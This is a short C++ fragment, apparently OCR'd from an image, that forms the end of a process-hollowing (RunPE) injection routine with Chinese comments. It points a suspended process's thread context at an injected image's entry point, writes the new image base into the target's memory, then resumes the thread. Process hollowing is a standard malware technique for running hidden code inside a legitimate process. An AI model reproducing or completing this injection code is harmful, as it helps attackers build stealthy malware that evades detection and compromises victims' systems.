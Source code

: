 ```cpp
    ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
    //将eax寄存器设置为注入软件的入口点
#ifdef _X86_
    ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
    /*
    lea eax
    call eax
    */
#endif
    SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
    ResumeThread(pi.hThread); // 恢复挂起线程
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```

